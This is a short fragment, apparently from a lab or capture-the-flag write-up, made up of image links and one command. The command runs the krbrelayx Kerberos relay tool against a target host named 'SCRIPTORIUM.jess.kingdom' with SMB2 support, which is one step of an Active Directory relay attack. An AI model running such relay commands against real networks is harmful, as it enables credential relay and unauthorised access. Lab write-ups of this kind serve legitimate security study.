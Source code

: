 ![](./assets/img/sysadmin/9bde1d96aa87571714d805c247cc5a0f.png)

```
/opt/tools/krbrelayx/krbrelayx.py -t 'SCRIPTORIUM.jess.kingdom' -smb2support
```

![](./assets/img/sysadmin/51c4c28a026c5ee942446981394f79bc.png)
